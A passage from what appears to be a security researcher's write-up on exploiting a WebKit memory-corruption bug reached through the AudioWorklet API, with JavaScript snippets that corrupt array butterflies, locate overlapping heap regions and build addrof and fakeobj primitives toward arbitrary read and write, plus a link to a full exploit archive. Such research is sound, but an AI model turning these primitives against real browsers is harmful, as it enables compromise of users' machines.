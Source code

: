 ```javascript
registerProcessor("a", class {
  constructor() {
    // this part is magic:
    // put 0xfffe000000001337 just before the new allocation to fake the butterfly sizes
    eval('1 + 0x1336');

    // overwrite a1's butterfly with a fastMalloc pointer
    return {fill: 1, wrapped: a0};
  }
});
```

With that issue fixed, we can now read and write to a large region of the heap using the elements of `a1`! Surely there are many ways to proceed from here, but the most direct approach we found was to repeat the above procedure for a second pair of arrays `b0` and `b1`. This points `b1`'s butterfly into the heap just beyond `a1`'s new butterfly. We can find the offset between the butterflies by writing a sentinel value into `b1[0]` and scanning through the elements of `a1` until the value is found:

```javascript
b1[0] = kSentinel;
// scan for the sentinel to find the offset from the two butterflies
for (var i = 0; i < a1.length; i++) {
  if (bigint2float(unboxDouble(float2bigint(a1[i]))) == kSentinel) {
    offset = i;
    break;
  }
}
```

{:.text-center}
![butterfly heap layout][butterfly diagram]

With this offset found, we know that `a1[offset]` and `b1[0]` refer to the same address in the heap. By setting up `a1` as an unboxed double array and `b1` as a boxed array, we can view this memory through two different lenses, which is essentially what `fakeobj` and `addrof` need to do:

```javascript
function addrof(val) {
  b1[0] = val;
  return float2bigint(a1[offset]);
}

function fakeobj(addr) {
  a1[offset] = bigint2float(addr);
  return b1[0];
}
```

With these in place, arbitrary read and write are straightforward to implement (see this [P0 post][jitsploitation primitives]{:target="_blank"}). In short, we can use inline properties to forge a fake unboxed double array with a butterfly pointing at an object of our choice. Then, array accesses can read and modify the internal state of other objects. This gives a StructureID leak, which allows for arbitrary fake object forgery and even stronger read/write primitives.


[patch commit]: https://github.com/WebKit/WebKit/commit/d56afe6836db40cdea22eaa6b47c56a6197a8bab
[ohjin exploit]: https://gist.github.com/ujin5/6b9a32eedc5a39d714a3a72f06efffe5
[webaudio api]: https://developer.mozilla.org/en-US/docs/Web/API/Web_Audio_API
[audio worklet api]: https://developer.mozilla.org/en-US/docs/Web/API/AudioWorklet
[liveoverflow]: https://liveoverflow.com/topic/browser-exploitation/
[liveoverflow butterfly]: https://liveoverflow.com/the-butterfly-of-jsobject-browser-0x02/
[jitsploitation primitives]: https://googleprojectzero.blogspot.com/2020/09/jitsploitation-two.html
[jitsploitation pac]: https://googleprojectzero.blogspot.com/2020/09/jitsploitation-three.html
[jitsploitation]: https://googleprojectzero.blogspot.com/2020/09/jitsploitation-one.html
[webkit heap hardening]: https://labs.f-secure.com/archive/some-brief-notes-on-webkit-heap-hardening/
[bmalloc]: https://github.com/WebKit/WebKit/tree/main/Source/bmalloc
[idl]: https://developer.mozilla.org/en-US/docs/Glossary/IDL
[butterfly diagram]: /assets/images/2021-05-25/butterflies.png
[overwrite diagram]: /assets/images/2021-05-25/overwrite.png
[exploit]: /assets/files/2021-05-25/pwn.zip